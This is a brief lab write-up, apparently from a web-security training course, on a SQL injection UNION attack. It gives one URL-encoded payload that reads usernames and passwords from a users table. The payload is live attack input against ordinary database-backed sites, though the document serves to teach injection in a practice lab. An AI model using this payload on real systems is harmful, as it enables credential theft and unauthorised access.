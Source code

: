 # Lab: SQL injection UNION attack, retrieving data from other tables

Knowing the number of columns and data types matches between the `users` table and the `Accessories` table, modify the payload to include a union for the relevant data:

`'+UNION+SELECT+username,+password+FROM+users--`